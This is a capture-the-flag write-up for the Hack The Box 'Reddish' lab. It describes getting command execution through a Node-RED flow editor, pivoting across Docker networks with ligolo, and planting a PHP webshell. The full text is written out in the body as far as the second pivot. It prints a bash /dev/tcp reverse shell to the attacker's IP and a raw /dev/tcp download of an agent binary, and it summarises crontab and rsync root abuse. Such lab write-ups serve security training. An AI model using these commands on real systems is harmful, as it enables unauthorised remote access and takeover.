<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - One port, `1880`, running Node-RED. I abuse its flow editor (inject -> exec -> debug) to get a reverse shell inside a Docker container. That container sits on two internal networks, so I set up a ligolo tunnel and find a second container (Apache) where `/var/www/html` is world-writable, drop a PHP shell and get RCE. That box touches a third network, so I double-pivot with a chained ligolo agent and find a host running `rsync` as root with the full filesystem exposed as the `src` module. I use it to plant a crontab reverse shell, land as root in that container, then mount `/dev/sda2` to read the real host's disk and grab both flags, before dropping one more crontab shell to own the host itself. A proper pivoting maze.

---

## Recon

Started with the full port scan on the target.

```bash
nmap -sV -sC -p- 10.129.106.27 -oN nmap/reddish
```



Only one port open. For an Insane box that already tells you the whole thing is going to live behind that single service, so let's see what it is.


Opening it in the browser just gives a blank page with `Cannot GET /`. The scan already hinted at Node.js, and even without it that `Cannot GET /` is the classic Express/Node fingerprint. So let's start throwing requests at it and see what endpoints exist.

```bash
ffuf -u http://10.129.106.27:1880/FUZZ -w /usr/share/wordlists/dirb/big.txt
```



Everything came back with the same `Cannot GET /red` error, so there's clearly something under `/red`. I pointed ffuf there next.

```bash
ffuf -u http://10.129.106.27:1880/red/FUZZ -w /usr/share/wordlists/dirb/big.txt
```



More endpoints this time. Visiting the `about` one prompted me to download a file.



Inside it was a long list of release notes and versions. I parked that for later and kept enumerating, this time against `/vendor`.

```bash
ffuf -u http://10.129.106.27:1880/vendor/FUZZ -w /usr/share/wordlists/dirb/big.txt
```



Same `Cannot GET /...` on everything. So I spun up Caido and flipped one of the requests from `GET` to `POST`.



That changed things, the server handed me back an `id` and a path built from that id. I grabbed it and visited `http://10.129.106.27:1880/red/de9243dfe6d46f84c2d4fd121804defc/`, which finally redirected me to a real page.



Now we're somewhere. It's **Node-RED**, a low-code flow editor built on Node.js for wiring together devices, APIs and services. The version is **v0.18.4**. Node-RED's whole purpose is running logic, so if I can edit a flow I can run commands.

## Foothold (Node-RED flow to reverse shell)

Node-RED lets you drag nodes onto a canvas and wire them together. The trick is simple: an **inject** node to trigger the flow, an **exec** node to run a command, and a **debug** node so I can see the output. I wired the exec node to a bash reverse shell.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.17.214/4444 0>&1'
```



Hit the inject, and my listener caught it.



We've got a shell, but we're inside a Docker container. Time to look around and figure out where we actually are.



The container is sitting on **two** different internal networks. This is the point where Reddish can turn into a rabbit hole, so instead of blindly poking I did a quick ping sweep across both to see what's alive. First the `172.19.0.0/16` network.



Four hosts up (three really, since `.3` is us). Then `172.18.0.0/16`.



Only one host there. I put my money on `172.19.0.0/16` and set up the tunnel. Problem: there's no `wget` and no `curl` on this container, so I couldn't just pull my ligolo agent down the easy way. I had to do it the raw way, talking HTTP straight over bash's `/dev/tcp`.

```bash
exec 3<>/dev/tcp/10.10.17.214/80
printf 'GET /agent HTTP/1.0\r\n\r\n' >&3
cat <&3 > /tmp/resp
exec 3<&-
```



Agent delivered, proxy up. From here I pointed the tunnel at `172.19.0.0/16` and started enumerating from my own box. `172.19.0.1` gave me nothing useful, so I moved to `172.19.0.2`.



This one has **Redis** open. I went to the page everyone goes to, [HackTricks](https://hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html), and tried the usual tricks, writing an SSH key, the cron write technique, and so on. None of it landed, this was a rabbit hole, so I backed out and enumerated the last target, `172.19.0.4`.



Two ports here, and one of them is `80`. Let's look.



This looks like the way in. The idea is to write a webshell into the web root and then trigger it through this endpoint. The typical Apache web root is `/var/www/html`, so first I checked whether I could write there.



We can. So let's drop a shell. I started with a simple `phpinfo()` file just to confirm execution.



Then browsed to `http://172.19.0.4/redis.php`.



Confirmed RCE. Now the real shell.





Got it. For something more comfortable I dropped a proper reverse shell payload.



And after hitting `http://172.19.0.4/shell.php`, a cleaner shell came back.



## Pivoting deeper (the double pivot)

I enumerated this container hard and found a home folder with `user.txt` in it that I couldn't read, which told me the real user lives somewhere else. Checking the interfaces, this container is wired to yet another network, `172.20.0.0/16`.



So we need another pivot. Since I'm using ligolo, I just chain a second agent through this container. Same problem as before, no `wget` or `curl`, so the same raw `/dev/tcp` transfer. First I added a listener on my current ligolo session.

```bash
listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000 --tcp
```

The setup now looks like this:

```text
attacker box ──ligolo──► nodered ──ligolo2──► web container ──► 172.20.0.0/16
             (172.19)              (chained)               (new net)
```

So we're double-pivoting. Transferring the agent:



After that I had a hard time telling whether the tunnel was healthy, pings kept failing. Turns out the hosts there block ICMP, so a ping sweep is useless. I switched to a TCP-based nmap sweep instead.



It was slow, so I assumed those were the only live hosts, two of them. `172.20.0.1` had nothing useful, so on to `172.20.0.2`.

